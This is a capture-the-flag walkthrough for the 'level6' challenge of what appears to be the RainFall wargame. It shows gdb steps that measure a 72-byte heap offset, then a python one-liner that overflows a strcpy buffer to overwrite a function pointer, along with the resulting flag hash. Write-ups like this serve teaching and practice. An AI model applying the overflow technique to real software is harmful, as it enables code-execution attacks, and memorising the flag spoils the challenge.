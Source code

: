# Walkthrough level6

In this binary we have a function pointer to the function m and we want to
change it with n.

The function pointer (\$esp + 0x18) and our buffer (\$esp + 0x1c) are on the
heap so if we write too much datas in our buffer we can modify the
function pointer value.

Find the offset to to edit the function pointer:

```bash
(gdb) x/x $esp+0x1c
0xbffff6dc:     0x0804a008
(gdb) x/x $esp+0x18
0xbffff6d8:     0x0804a050
(gdb) p 0x0804a050 - 0x0804a008
$3 = 72
```

Now we can try to write something in the function pointer:

```bash
(gdb) r $(python -c "print('A' * 72 + 'B' * 4)")
(gdb) disas
(...)
   0x080484c5 <+73>:    call   0x8048340 <strcpy@plt>
   0x080484ca <+78>:    mov    eax,DWORD PTR [esp+0x18]
   0x080484ce <+82>:    mov    eax,DWORD PTR [eax]
=> 0x080484d0 <+84>:    call   eax
   0x080484d2 <+86>:    leave
   0x080484d3 <+87>:    ret
End of assembler dump.
(gdb) i r eax
eax            0x42424242       1094795585

```

Change the value with the address of the function n:

```bash
level6@RainFall:~$ ./level6  $(python -c "print('A' * 72 + '\x54\x84\x04\x08')")
f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d
```
